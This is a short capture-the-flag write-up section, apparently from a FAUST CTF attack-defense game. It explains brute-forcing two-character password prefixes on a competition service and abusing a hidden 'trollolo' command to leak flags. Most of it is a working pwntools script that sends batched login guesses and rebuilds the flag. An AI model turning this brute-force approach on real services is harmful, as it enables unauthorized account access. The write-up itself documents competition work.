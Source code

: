 ## exploitation

So, knowing what we know now. The exploit is rather straightforward - brute-force the first two characters of the password of the current flag id users and use the hidden `trollolo` command to print the entire, mangled flag - then, just restore & submit it! Here's the simple script I came up with, which worked just fine :)

```python
#!/usr/bin/env python3

import re
from itertools import product
from string import ascii_letters
from pwn import *

# ...

HOST: str = '...'
chs: bytes = ascii_letters + ''.join(str(x) for x in range(10)) + '/+'

for u in flag_ids:
    print('[*] targeting user', u)
    r = remote(HOST, 3333)
    huge: str = ''.join(f'login\n{u}\n{c1+c2}\n' for c1, c2 in product(chs, repeat=2)) + 'trollolo\nexit\n'
    r.sendafter(b'$', huge.encode())
    out: str = r.recvall().decode('utf-8')
    try:
        pw: str = re.search(r'\'(.+)\'', out).group(1)
        f_idx: int = pw.index('FAUST')
        print(f'[+] found FAUST pw: {pw[f_idx:] + pw[:f_idx]}')
    except:
        print(f'[-] not FAUST pw?')
        pass
```

